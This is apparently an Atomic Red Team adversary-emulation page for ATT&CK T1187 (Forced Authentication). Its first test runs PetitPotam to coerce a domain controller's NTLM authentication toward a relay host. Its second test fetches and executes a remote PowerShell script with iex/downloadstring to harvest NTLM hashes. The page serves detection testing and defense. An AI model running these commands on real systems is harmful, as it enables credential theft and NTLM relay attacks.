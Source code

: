 ```yaml
---
tags: [T1187, atomic_test]
filename: "[[T1187|T1187 - Forced Authentication]]"
---
```

# T1187 - Forced Authentication

## Atomic Test #1 - PetitPotam
This module runs the Windows executable of PetitPotam in order to coerce authentication for a remote system.

**Supported Platforms:** Windows


**auto_generated_guid:** 485ce873-2e65-4706-9c7e-ae3ab9e14213





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| captureServerIP | Computer IP to use to receive the authentication (ex. attacker machine used for NTLM relay) | string | 10.0.0.3|
| targetServerIP | Computer IP to force authentication from (ex. domain controller) | string | 10.0.0.2|
| efsApi | EFS API to use to coerce authentication | integer | 1|
| petitpotam_path | PetitPotam Windows executable | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;PetitPotam.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
& "#{petitpotam_path}" #{captureServerIP} #{targetServerIP} #{efsApi}
Write-Host "End of PetitPotam attack"
```




#### Dependencies:  Run with `powershell`!
##### Description: PetitPotam binary must exist on disk and at specified location (#{petitpotam_path}).
And the computer must be domain joined (implicit authentication).
##### Check Prereq Commands:
```powershell
if (Test-Path "#{petitpotam_path}") { exit 0 } else { exit 1 }
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://github.com/topotam/PetitPotam/blob/2ae559f938e67d0cd59c5afcaac67672b9ef2981/PetitPotam.exe?raw=true" -OutFile "#{petitpotam_path}"
```




<br/>
<br/>

## Atomic Test #2 - WinPwn - PowerSharpPack - Retrieving NTLM Hashes without Touching LSASS
PowerSharpPack - Retrieving NTLM Hashes without Touching LSASS technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 7f06b25c-799e-40f1-89db-999c9cc84317






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Internalmonologue.ps1')
Invoke-Internalmonologue -command "-Downgrade true -impersonate true -restore true"
```






<br/>
